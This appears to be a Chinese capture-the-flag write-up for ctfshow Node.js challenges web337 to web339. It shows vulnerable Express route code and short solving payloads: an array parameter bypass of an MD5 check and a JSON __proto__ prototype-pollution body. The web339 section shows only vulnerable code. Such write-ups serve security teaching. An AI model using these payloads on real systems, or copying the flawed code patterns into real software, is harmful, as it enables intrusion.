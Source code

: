 

### web337 md5绕过

```js
var express = require('express');
var router = express.Router();
var crypto = require('crypto');

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}

/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var flag='xxxxxxx';
  var a = req.query.a;
  var b = req.query.b;
  if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
  	res.end(flag);
  }else{
  	res.render('index',{ msg: 'tql'});
  }
  
});

module.exports = router;
```

数组绕过：

```js
?a[]=1&b[]=1
```



### web338 原型链污染

```json
{"__proto__": {"ctfshow": "36dboy"}}
```

注意提交POST包时，Content-type要为 application/json才能正确被解析成json对象



### web339 原型链污染+rce

```js
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow===flag){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
});
```
